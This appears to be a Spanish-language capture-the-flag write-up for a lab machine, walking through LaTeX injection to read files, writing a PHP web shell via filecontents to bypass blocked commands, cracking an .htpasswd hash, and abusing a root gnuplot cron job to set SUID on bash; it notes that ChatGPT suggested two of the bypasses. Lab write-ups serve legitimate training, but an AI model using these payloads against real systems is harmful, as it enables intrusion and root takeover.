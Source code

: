 ------------
- Tags: #latex-injection #web-shell #latex-bypass #password-crack #gnuplot-abuse #cron-job 
-----------
## Tecnicas utilizadas
- Latex injection ByPass Ilegal Command
- Crack Password [.htpasswd]
- Abuse cron job (GNUPLOT execute)
## Procedimiento
![[Pasted image 20230610115556.png]]


Con el escaneo en nmap. encontramos que tiene abierto el puerto **22** y el puerto *80*:

![[Pasted image 20230610120856.png]]

Haciendo un **whatweb** a la pagina principal, nos muestra las siguientes tecnologias:

![[Pasted image 20230610121017.png]]

--------------------

#### Latex injection ByPass Ilegal Command

En la pagina principal de la web, nos muestran ciertas herramientas desarolladas por el departamento estudiantil, entre ellas vemos una que nos redirige a un subdominio que no tenemos contemplado en el */etc/hosts*. Lo agregamos y al visitar el subdominio nos damos cuenta que es una pagina que genera documentos en **Latex**.

Al colocar una injecion comun de latex nos aparece un error:

![[Pasted image 20230610121943.png]]

Pero si intentamos leer un archivo con las siguientes lineas:

```latex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file```

Si se nos permite, solo que solo podemos leer la primera linea. Y si intetamos usar el comando *Loop* no se nos deja.
Estando buen rato intentado leer comandos, no pude mas que solo leer algunas lineas de los archivos, asi que intente escribir archivos. *\input* y *\write18* son comandos no validos, asi que preguntandole a **ChatGPT** si habia una alternativa a *\write18* me dio el siguiente resultado:

```latex
\begin{filecontents*}{shell.php} 
<?php system($_GET['cmd']);?> 
\end{filecontents*}
```

------------------------

#### Crack Password

Escribimos una web shell y nos entablamos una reverse shell. Podemos ver una lista de las palabras bloqueadas en el script de la pagina de Latex:

![[Pasted image 20230610160808.png]]

Una vez dentro, podemos encontrar un .htpasswd el cual tiene la contraseña del usuario vdaisley encriptada, usando john podemos romper el hash.

----------------------

#### Abuse cron job (GNUPLOT execute)

Una vez pivitiamos al usuario *vdaisley* subimos el binario *pspy* para ver los procesos que se ejecutan en en intervalos regulares de tiempo. Podemos observar que hay un proceso que ejecuta root que es el siguiente:

![[Pasted image 20230610172000.png]]

Preguntandole a **ChatGPT** si es posible ejecutar comando con archivos de **gnuplot**  con extension **.plt** nos da la siguente respuesta:

```gnuplot
!chmod +x script.sh !./script.sh
```

Asi que aprovechamos y le damos privilegios SUID a la bash de la siguiente forma

```
!chmod u+s /bin/bash
```

Y pwneamos la maquina.